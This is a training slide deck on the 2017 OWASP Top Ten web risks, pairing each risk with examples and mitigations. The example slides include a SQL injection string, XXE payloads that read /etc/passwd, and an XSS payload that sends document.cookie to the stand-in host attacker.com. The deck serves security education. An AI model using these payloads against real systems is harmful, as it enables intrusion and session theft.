class: center, middle



<b><u><h1 style="font-size: 4em">OWASP Top Ten</h1></u></b>

### Mohammad Javad Naderi

November 2020

---
layout: true
## What Will We Cover?
---

- Brief Introduction to Cyber Security
- What is OWASP?
- What is OWASP Top Ten Project?
- Top Ten Overview

---
layout: true
## What is Cyber Security?
---

> **Computer Security** (a.k.a. **Cyber Security**) is the practice of protecting computer systems
> and networks from malicious attacks.

- Terminology
  - Hack
  - Attack (Malicious Hack)
  - Vulnerability
  - Attack Vector
  - Attack Surface

---
layout: true
## Why is Cyber Security Important?
---



---


---



---



---



---



---
layout: true
## CIA Triad of Information Security
---



---
layout: true
## What is a Vulnerability?
---



<p style="text-align: center">A chain is only as strong as its weakest link.</p>

---
layout: true
## Application Security Risks
---



- Each path to harm your business is a **security risk**.
- Sometimes trivial to find and exploit, sometimes extremely difficult
  
---
layout: true
## Who is the OWASP® Foundation?
---

- **O**pen **W**eb **A**pplication **S**ecurity **P**roject
- A nonprofit foundation launched on December 1st, 2001.
- Source for developers and technologists to secure the web, through:
  - Community-led open source software projects
  - Over 275 local chapters worldwide
  - Tens of thousands of members
  - Leading educational and training conferences
- Provides:
  - Tools and Resources
  - Community and Networking
  - Education & Training

---
layout: true
## Why OWASP Top Ten?
---

- **Insecure software** is undermining our critical infrastructure.
  - financial, healthcare, defense, energy, ...
- Software is becoming increasingly **complex** and **connected**.
  - The difficulty of achieving application security increases exponentially.
- The **rapid pace** of modern software development processes.
  - Makes the **most common risks** essential to discover and resolve quickly and accurately.

---
layout: true
## OWASP Top Ten
---



- Top most critical web application vulnerabilities.
- First released in 2004.
- Released (almost) every 3 years
  - 2004, 2007, 2010, 2013, 2017 (current)
- A standard awareness document for developers and web application security.
-  Globally recognized by developers as the first step towards more secure coding.
- [The complete list](https://owasp.org/www-community/vulnerabilities/) contains ~60 vulnerabilities.

---

- Don't stop at 10.
  - Top Ten is only the beginning!
- Constant change
- Use tools wisely
  - Human experts armed with advanced tools
  - Relying on tools alone provides a false sense of security and is not recommended.
- Push left, right, and everywhere
  - Make security an integral part of your culture

---



---
layout: true
## Why It Changed?
---

Over the last few years, the fundamental technology and architecture of applications has changed significantly.

- Microservices
- Single page applications
- JavaScript is now the primary language of the web

---
layout: true
## 1. Injection
---

> **Untrusted data** is sent to an interpreter as part of a command or query.

- **Targets:** SQL, NoSQL, OS command, LDAP, XPath, ORM queries, XML parsers
- Your system is vulnerable if
  - User data is not validated, filtered, or sanitized.
  - Dynamic queries or non-parameterized calls without context-aware escaping.
  - Hostile data is used within ORM search parameters.



---
layout: true
## 1. Injection <span style="color: #00BCEF">Example</span>
---

<i class="yellow bug icon"></i>
The code:

```python
query = "SELECT * FROM accounts WHERE id='" + request.GET.get("id") + "'"
```

<i class="red user secret icon"></i>
The exploit:

```
http://example.com/app/accountView?id=' or '1'='1
```

<i class="red database icon"></i>
Resulting query:

```sql
SELECT * FROM accounts WHERE id='' or '1'='1'
```

<i class="orange exclamation triangle icon"></i> Could even modify/delete data!

---
layout: true
## 1. Injection <span style="color: #00BCEF">Example</span>
---

<div style="text-align: center; margin-top: 120px">
<h3 style="font-size: 6em; text-align: center; margin: 0;">
Demo Time!
</h3>
<p>Demo project is located in <code>demo</code> folder.</p>
</div>

---
layout: true
## 1. Injection <span style="color: #21ba45">Mitigation</span>
---

- The preferred option: **Use a safe API**
  - which provides a parametrized interface.
- Use whitelist server-side input validation.
- Do not pass user input directly.
  - Escape them!
- Use `LIMIT`
  - To prevent mass disclosure of records in case of SQL injection.

---
layout: true
## 2. Broken Authentication
---

> Functions related to **authentication** and **session management** are often not implemented correctly.
> Allowing attackers to compromise **passwords**, **keys**, or **session tokens**.

- Your system is vulnerable if
  - Permits brute force or other automated attacks.
  - Permits default, weak, or well-known passwords (e.g. `123456`, `admin/admin`).
  - Uses weak credential recovery and forgot password processes.
  - Uses plain text, encrypted, or weakly hashed passwords.
  - Has missing or ineffective multi-factor authentication.
  - Exposes Session IDs in the URL (e.g., URL rewriting).

---
layout: true
## 2. Broken Authentication <span style="color: #21ba45">Mitigation</span>
---

- **Multi-factor** authentication
- Do not deploy with any **default credentials**, particularly for admin users.
- Implement **weak-password** checks (against a list of the top 10000 worst passwords).
- Align password length, complexity and rotation policies with a modern **password policy**.
- Use the **same messages** for all outcomes (against enumeration attacks).
- Limit or increasingly **delay failed login attempts**. Log all failures. Alert admins.
- Use a server-side, secure, built-in **session manager**.

---
layout: true
## 3. Sensitive Data Exposure
---

> Application does not properly protect sensitive data.

- Your system is vulnerable if
  - Sensitive data transmitted or stored in **clear text**.
  - Old or weak cryptographic **algorithms** used.
  - Encryption **not enforced**.



---
layout: true
## 3. Sensitive Data Exposure <span style="color: #21ba45">Mitigation</span>
---

- **Classify** data. Identify sensitive data.
- **Don't store** sensitive data unnecessarily.
- Make sure you **encrypt** all sensitive data at rest.
- **Encrypt** all data in transit, such as using TLS.
  - **Enforce** this using directives like HTTP Strict Transport Security (HSTS).
- **Disable caching** for response that contain sensitive data.
- Store passwords using strong adaptive and salted **hashing** functions with a work factor (delay factor)

---
layout: true
## 4. XML External Entities (XXE)
---

> Many older or poorly configured XML processors evaluate **external entity references** within XML
documents. <br/> External entities can be used to disclose internal files using the file URI handler,
internal file shares, internal port scanning, remote code execution, and denial of service attacks.

- Your system is vulnerable if
  - Application accepts XML directly or XML uploads.
  - Any XML parser or SOAP based web service has DTD enabled.
  - Application uses SOAP prior to version 1.2.

---
layout: true
## 4. XML External Entities (XXE) <span style="color: #00BCEF">Example</span>
---

<i class="red user secret icon"></i> Extract data:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

<i class="red user secret icon"></i> Probe the server's private network:

```xml
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

<i class="red user secret icon"></i> DOS attack:

```xml
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

---
layout: true
## 4. XML External Entities (XXE) <span style="color: #21ba45">Mitigation</span>
---

- If possible, use less complex data formats. e.g. **JSON**
- **Configure** XML parsers
  - Disable external entities, DTD processing
- **Validate**, filter, sanitize user input.
- **Upgrade** XML parsers and SOAP to the latest version.

---
layout: true
## 5. Broken Access Control
---

> Restrictions on what authenticated users are allowed to do are often not properly enforced.

- a.k.a. **Privilege Escalation**
- Attackers access unauthorized functionality and/or data.
- **A4:2013** (Insecure direct object references) + **A7:2013** (Missing function level access control)



---
layout: true
## 5. Broken Access Control <span style="color: #00BCEF">Example</span>
---

<i class="red user secret icon"></i>
Try to access other user by modifying `acct` parameter in URL.

```python
results = get_account_info(request.GET.get("acct"))
```

<i class="red user secret icon"></i>
Send manually crafted HTTP requests to modify/delete other account data.

```python
requests.delete("https://example.com/api/document", {
    "document_id": "{{ id of other user's document }}"
})
```

---
layout: true
## 5. Broken Access Control <span style="color: #21ba45">Mitigation</span>
---

- **Deny by default** (with the exception of public resources)
- Implement **access control mechanisms**
- Enforce **record ownership**
- Disable web server **directory listing**
- **Log** access control failures, alert admins when appropriate
- **Rate limit** API access


---
layout: true
## 6. Security Misconfiguration
---

> Security settings are defined, implemented and maintained improperly.

- The most common seen issue!
- A result of
  - Insecure **default configurations**
  - Incomplete or **ad hoc configurations**
  - Open **cloud** storage
  - Misconfigured **HTTP headers**
  - Verbose **error messages** containing sensitive information
- e.g. unnecessary open services/ports, default accounts, default passwords, outdated software

---
layout: true
## 6. Security Misconfiguration <span style="color: #21ba45">Mitigation</span>
---

- Have an automated repeatable **hardening process**
- Disable/Remove **unnecessary** features, components, services
  - Remove default accounts, change default passwords
- **Review** and **update** the configurations appropriate to all security notes, updates and patches

---
layout: true
## 7. Cross-Site Scripting (XSS)
---

> XSS enables attackers to inject client-side scripts into web pages viewed by other users. 

- Occurs when:
  - App includes **untrusted data in a new web page** without proper validation or escaping
  - App **updates an existing web page** with user-supplied data
    using a browser API that can create HTML or JavaScript
- Injected script can:
  - Hijack user session
  - Deface website
  - Redirect the user to a malicious site

---
layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #00BCEF">Example</span>
---

<i class="yellow bug icon"></i>
Application uses untrusted data in HTML without escaping:

```python
    return HttpResponse(
        '<input name="creditcard" type="text" value="' + request.GET.get('cc') + '">'
    )
```

<i class="red user secret icon"></i>
Attacker sets cc parameter to:

```
"><script>document.location='http://attacker.com/eat-cookie?foo='+document.cookie</script><br class="
```

<i class="red fire icon"></i>
Resulting HTML:

```html
<input name="creditcard" type="text" value="">
<script>document.location='http://attacker.com/eat-cookie?foo='+document.cookie</script>
<br class="">
```

---
layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #00BCEF">Example</span>
---

<div style="text-align: center; margin-top: 120px">
<h3 style="font-size: 6em; text-align: center; margin: 0;">
Demo Time!
</h3>
<p>Demo project is located in <code>demo</code> folder.</p>
</div>

---
layout: true
## 7. Cross-Site Scripting (XSS) <span style="color: #21ba45">Mitigation</span>
---

- **Escape** output
  - Use a framework that automatically **escapes by design** (e.g. Django, React)
- Enable a Content Security Policy (**CSP**)
  - An added layer of security
  - `Content-Security-Policy` HTTP header
  - e.g. We want all content to come from the site's own origin:
  ```
  Content-Security-Policy: default-src 'self'
  ```

---
layout: true
## 8. Insecure Deserialization
---

> Insecure deserialization of malicious **serialized objects** can lead to remote code execution.

- Somewhat difficult to exploit.
- Your system is vulnerable if
  - Application accepts and **deserializes untrusted objects**.
- Deserialization can be used in:
  - RPC/IPC
  - Database, cache servers
  - Message brokers
  - HTTP cookies, HTML form parameters, API auth tokens

---

- Mark Reinhold, chief architect of the Java platform group at Oracle:
  - Serialization was a **“horrible mistake”** made in 1997.
  - Removing serialization is a long-term goal and is part of Project Amber.
  - At least a third —maybe even half— of Java vulnerabilities have involved serialization.
- Brian Goetz, June 2019:
  - Java's serialization makes nearly **every mistake imaginable**
- Tool: **Java Serial Killer**
- Python's **`pickle`** is not safe too
  - When handling untrusted data

---
layout: true
## 8. Insecure Deserialization <span style="color: #00BCEF">Example</span>
---

A PHP forum uses PHP object serialization to save a base64-encoded "super" cookie,
containing the user's user ID, role, password hash, and other state:

> YTo0OntpOjA7aToxMzI7aToxO3M6NzoiTWFsbG9yeSI7aToyO3M6NDoidXNlciI7
> aTozO3M6MzI6ImI2YThiM2JlYTg3ZmUwZTA1MDIyZjhmM2M4OGJjOTYwIjt9

We can decode it, modify username and role, encode again.

> a:4:{i:0;i:132;i:1;s:7:"**mallory**";i:2;s:4:"**user**";
> i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}


---
layout: true
## 8. Insecure Deserialization <span style="color: #21ba45">Mitigation</span>
---

- Do not accept serialized objects from untrusted sources
- Implement integrity checks/encryption for serialized objects
- Log deserialization exceptions and failures
- Use a Web Application Firewall (WAF)
  - that can detect malicious or unauthorized insecure deserialization
- Only deserialize signed data

---
layout: true
## 9. Using Components with Known Vulnerabilities
---

> Components, such as libraries, frameworks, and other modules, run with **the same privileges** as the application.
> Attacker can exploit a known vulnerability in software you run.


Your system is **likely** vulnerable if:
- You don’t know **the version** of **all** the components you use
 - including nested dependencies
- Software you use is **out of date**
- You don't **scan** for vulnerabilities regularly
- You don't **upgrade** components

---
layout: true
## 9. Using Components with Known Vulnerabilities <span style="color: #00BCEF">Example</span>
---

**[CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)**
- Enables execution of arbitrary code on the server. Has been blamed for significant breaches.

**[CVE-2014-0160](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-0160)** (Heartbleed)


- Vulnerability in OpenSSL cryptography library (**widely used** TLS implementation)
- Introduced to the software in **2012**, publicly disclosed in **April 2014**
- Results from improper input validation (missing bounds check)
- Allows anyone on the Internet to **read the memory** of the vulnerable system.

---
layout:false
background-image: url(images/xkcd-heartbleed.png)

---
layout: true
## 9. Using Components with Known Vulnerabilities <span style="color: #21ba45">Mitigation</span>
---

- **Remove unused** dependencies, unnecessary features, components, files, and documentation.
- Continuously **inventory the versions** of both client-side and server-side components.
- Only obtain components from **official sources** over secure links. 
- Monitor for libraries and components that are **unmaintained**.

> Every organization must ensure that there is an ongoing plan for
monitoring, triaging, and applying updates or configuration
changes for the lifetime of the application or portfolio.

---
layout: true
## 10. Insufficient Logging and Monitoring
---

> Allows attackers to further attack systems, maintain persistence,
> pivot to more systems, and tamper, extract or destroy data.

- Studies show time to detect a breach is
  - **Over 200 days**
  - Typically detected by **external parties** rather than internal processes or monitoring. 
- Your system is vulnerable if
  - Auditable events are **not logged**.
  - Logs of applications and APIs are **not monitored** for suspicious activity.
  - Logs are only stored **locally**.
  - Logs are **visible** to users or attackers.

---
layout: true
## 10. Insufficient Logging and Monitoring <span style="color: #21ba45">Mitigation</span>
---

- **Log**
  - Log login, access control input validation **failures** with sufficient user context
  - Ensure **high value transactions** have an audit trail with integrity controls to prevent tampering or deletion
- **Monitor**
  - Establish effective **monitoring** and **alerting**
  - Establish or adopt an **incident response** and recovery plan

---
layout: true
## Risk Factors
---

